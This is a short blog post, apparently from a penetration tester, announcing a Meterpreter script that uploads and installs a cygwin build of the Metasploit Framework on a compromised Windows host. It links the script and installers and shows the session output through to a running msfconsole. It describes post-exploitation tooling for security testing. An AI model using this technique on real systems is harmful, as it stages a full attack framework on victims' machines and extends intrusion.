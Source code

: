 = Metasploit Framework as a Payload
:hp-tags: metasploit, meterpreter

Well, sorta…  
  
I created a meterpreter script that takes the cygwin bundled version of Metasploit inside of a NullSoft installer that HD Moore created and deploys it using meterpreter to the compromised host, extracts/installs it, and runs the shell. Now I left this intentionally open so that you could package your own cygwin bundle (possibly with nmap and netcat), for your own evil fun.  
  
_Thanks defintely go to Carlos Perez (Dark0perator) and HD Moore for their help getting this bad boy working right._  
  
You can download the script here: [https://github.com/mubix/stuff/blob/master/metasploit/deploymsf.rb](https://github.com/mubix/stuff/blob/master/metasploit/deploymsf.rb)  
  
You can download the cygwin installs from the metasploit website:  
  
* 13mb FULL framework: [framework-3.3-dev.exe](https://github.com/mubix/stuff/blob/master/w32bins/metasploit_installers/framework-3.3-dev.exe?raw=true)
* 5mb MINI (just msfconsole): [mini-3.3-dev.exe](https://github.com/mubix/stuff/blob/master/w32bins/metasploit_installers/mini-3.3-dev.exe?raw=true)

And here is what it looks like:

```
meterpreter > run deploymsf -f framework-3.3-dev.exe  
[*] Running Meterpreter MSFp Deploytment Script.....  
[*] Uploading MSFp for for deployment....  
[*] MSFp uploaded as C:DOCUME~1mubixLOCALS~1Temp12681.exe  
[*] Installing MSFp...........  
[*] Done!  
[*] Installation Complete!  
[*] Running cygwin shell channelized...  
[*] Channel 18 created - Type: interact 18 to play  
[*] Be warned, it takes a bit for post setup to happen  
[*] and you will not see a prompt, try pwd to check  
meterpreter > interact 18  
Interacting with channel 18...  
  
[*] Configuring multi-user permissions for first run...  
[*] Configuring the initial user environment...  
pwd  
/home/mubix  
ls  
msfconsole  
*** Metasploit only has EXPERIMENTAL support for Ruby 1.9.1 and newer, things may break!  
*** Please report bugs to msfdev[at]metasploit.com  
[-] ***  
[-] * WARNING: No database support: LoadError no such file to load -- active_record  
[-] ***  
  
## ### ## ##  
## ## #### ###### #### ##### ##### ## #### ######  
####### ## ## ## ## ## ## ## ## ## ## ### ##  
####### ###### ## ##### #### ## ## ## ## ## ## ##  
## # ## ## ## ## ## ## ##### ## ## ## ## ##  
## ## #### ### ##### ##### ## #### #### #### ###  
##  
  
=[ msf v3.3-dev  
+ -- --=[ 379 exploits - 231 payloads  
+ -- --=[ 20 encoders - 7 nops  
=[ 156 aux  
  
msf >GAME OVER
```
